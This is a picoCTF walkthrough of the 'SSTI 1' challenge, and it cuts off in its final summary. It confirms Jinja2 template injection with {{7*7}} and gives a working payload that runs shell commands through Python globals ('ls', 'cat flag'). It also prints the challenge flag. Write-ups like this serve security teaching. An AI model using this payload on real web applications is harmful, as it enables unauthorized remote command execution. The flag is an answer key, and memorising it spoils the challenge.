





# PicoCTF Walkthrough: SSTI 1

## Description of the Challenge

I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

---

## Step 1 — Testing the Input Field for SSTI

To check whether the input is being interpreted as a template, we submit a simple test payload:

```
{{7*7}}
```

If the server evaluates it and returns:

```
49
```

then SSTI is confirmed.

### Testing Initial Payload



### SSTI Confirmed


---

## Step 2 — Attempting an SSTI Exploitation Payload



With SSTI confirmed, the next step is gaining access to backend Python objects.  
A common escalation path is to leverage Python’s `__globals__` to import modules such as `os`.

We use the following payload to run the `ls` command on the server:

```
{{ self.__init__.__globals__['__builtins__'].__import__('os').popen('ls').read() }}
```

This payload executes system commands and displays their output.

### Command Execution Through Template Injection



---

## Step 3 — Reading the Hidden Flag File

Once command execution is achieved, retrieving the flag is straightforward.  
We replace the previous command with one that reads the `flag` file directly:

```
{{ self.__init__.__globals__['__builtins__'].__import__('os').popen('cat flag').read() }}
```

### Accessing the Flag File



### Flag Successfully Retrieved


The server returns the PicoCTF flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
 

---

## Summary

1. Tested SSTI with `{{7*7}}` and verified server-side computation.  
2. Leveraged SSTI to achieve backend code execution via Python globals.  
3. Executed `cat flag` to read the hidden flag file.  
4. Successfully extracted the PicoCTF flag from t
